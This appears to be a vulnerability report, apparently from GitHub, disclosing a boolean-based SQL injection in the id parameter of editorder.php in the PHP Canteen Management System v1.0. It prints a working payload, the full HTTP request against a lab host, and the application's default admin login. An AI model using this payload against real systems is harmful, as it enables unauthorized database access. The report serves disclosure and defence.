 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: 庞习铭

vendors: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/rootadmin (Super Admin account)

Vulnerability File: /youthappam/editorder.php?id=

Vulnerability location: /youthappam/editorder.php?id=, id

dbname =youthappam,length=10

[+] Payload: /youthappam/editorder.php?id=1%20and%20length(database())%20=10--+ // Leak place ---> id

```sql
GET /youthappam/editorder.php?id=1%20and%20length(database())%20=10--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lf9hph2449vgrcadcct2jgd8ne
Connection: close
```

length = 10
![image](https://user-images.githubusercontent.com/54017627/195261644-6467f92a-b0f9-4e22-810a-32e661a4672e.png)


length = 9
![image](https://user-images.githubusercontent.com/54017627/195262249-bf94f2ee-1ae0-4199-8e87-f6920b2e5f5d.png)

